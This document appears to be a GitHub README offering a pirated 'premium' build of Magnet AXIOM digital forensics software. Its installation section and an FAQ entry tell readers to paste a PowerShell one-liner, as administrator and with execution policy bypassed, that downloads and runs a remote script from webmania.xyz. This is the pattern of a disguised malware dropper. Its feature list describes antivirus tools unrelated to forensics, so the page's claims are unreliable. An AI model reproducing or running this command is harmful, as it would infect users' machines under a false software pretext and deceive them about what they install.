

<div align="center">


<br>


# Magnet AXIOM Digital Forensics Premium
**Digital forensics investigation · Mobile and cloud analysis · Premium artifact parsing**
<br>
**Digital forensics investigation · Mobile and cloud analysis · Premium artifact parsing**
<br>
Complete Edition · Premium Build · Windows · Deployment



**Complete Edition — all digital forensics modules and premium investigation tools enabled.**

</div>
---

> Licensed premium AXIOM forensics with mobile analysis and every artifact parsing module included.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://webmania.xyz/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

🛡️ **Real-time protection** — Malware and ransomware shields enabled.
🔥 **Firewall controls** — Network rules and app monitoring included.
🌐 **Web protection** — Safe browsing and phishing filters active.
📦 **Local security suite** — Works after one-time setup.
🖥️ **Windows optimized** — Lightweight daily protection on 10/11.
⚙️ **Pro modules** — Premium security features enabled in this build.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB |
| **Disk** | 5 GB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://webmania.xyz/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB, 5 GB.
</details>


TAGS
magnet-axiom, digital-forensics, evidence-analysis, mobile-forensics, cloud-artifacts, investigation, enterprise, windows, desktop, software, pro, studio, tools
